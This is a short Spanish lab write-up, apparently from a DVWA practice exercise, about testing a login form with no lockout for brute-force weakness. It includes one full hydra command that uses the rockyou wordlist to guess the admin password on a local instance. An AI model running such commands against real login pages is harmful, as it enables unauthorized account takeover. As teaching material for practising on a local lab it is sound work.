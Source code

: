 # 1.1 Brute Force

Esta sección nos permite probar la vulnerabilidad de la fuerza bruta. 
Podemos observar que, si fallamos la contraseña, podremos probar cuanto queramos sin bloqueos ni restricciones.

(/img/imagen1.JPG)
Imagen 1 - BruteForce
Luego procedemos a hacer a probarlo con fuerza bruta, con hydra, con el siguiente comando hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346" 

(/img/imagen2.JPG)
Imagen 2 - BruteForceLow
